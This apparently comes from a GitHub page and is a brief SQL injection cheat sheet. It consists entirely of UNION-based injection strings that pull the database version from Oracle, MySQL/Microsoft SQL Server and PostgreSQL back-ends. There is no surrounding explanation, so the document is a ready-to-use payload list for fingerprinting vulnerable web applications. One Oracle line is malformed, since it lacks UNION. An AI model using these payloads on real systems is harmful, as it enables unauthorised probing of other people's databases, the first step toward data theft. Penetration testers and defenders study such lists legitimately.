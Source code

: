 ## ORACLE
```sql
' UNION SELECT BANNER, NULL FROM v$version--
' SELECT version FROM v$instance--
```
## MySQL and Microsoft
```sql
' UNION SELECT @@version, NULL-- -
```
## PostgreSQL
```sql
' UNION SELECT version(), NULL-- -
```
